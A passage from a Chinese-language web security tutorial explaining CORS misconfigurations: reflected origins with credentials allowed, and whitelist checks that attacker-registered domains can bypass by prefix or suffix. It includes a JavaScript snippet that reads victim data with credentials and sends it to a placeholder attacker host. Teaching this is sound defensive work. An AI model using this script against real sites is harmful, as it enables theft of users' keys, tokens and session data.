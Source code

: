 然后，其响应：
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
```

响应头表明允许从请求域进行访问，并且跨域请求可以包括 cookies（`Access-Control-Allow-Credentials: true`），因此浏览器将会在会话中进行处理。

由于应用程序在 `Access-Control-Allow-Origin` 头中直接返回了请求域，这意味着任何域都可以访问资源。如果响应中包含了任何敏感信息，如 API key 或者 CSRF token 则都可以被获取，你可以在你的网站上放置以下脚本进行检索：
```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='//malicious-website.com/log?key='+this.responseText;
};
```


### Origin 处理漏洞

某些应用程序使用白名单机制来实现可信来源的访问允许。当收到 CORS 请求时，将请求头中的 origin 与白名单进行比较，如果在白名单中，则在 `Access-Control-Allow-Origin` 头中返回请求的 origin 以允许其跨域访问。例如，应用程序收到了如下的请求：
```
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```

应用程序检查白名单列表，如果 origin 在表中，则响应：
```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```

在实现 CORS origin 白名单时很可能会犯一些失误。某个组织决定允许从其所有子域（包括尚未存在的未来子域）进行访问。应用程序允许从其他组织的域（包括其子域）进行访问。这些规则通常通过匹配 URL 前缀或后缀，或使用正则表达式来实现。实现中的任何失误都可能导致访问权限被授予意外的外部域。

例如，假设应用程序允许以下结尾的所有域的访问权限：
```
normal-website.com
```
攻击者则可以通过注册以下域来获得访问权限（结尾匹配）：
```
hackersnormal-website.com
```

或者应用程序允许以下开头的所有域的访问权限：
```
normal-website.com
```
攻击者则可以使用以下域获得访问权限（开头匹配）：
```
normal-website.com.evil-user.net
```
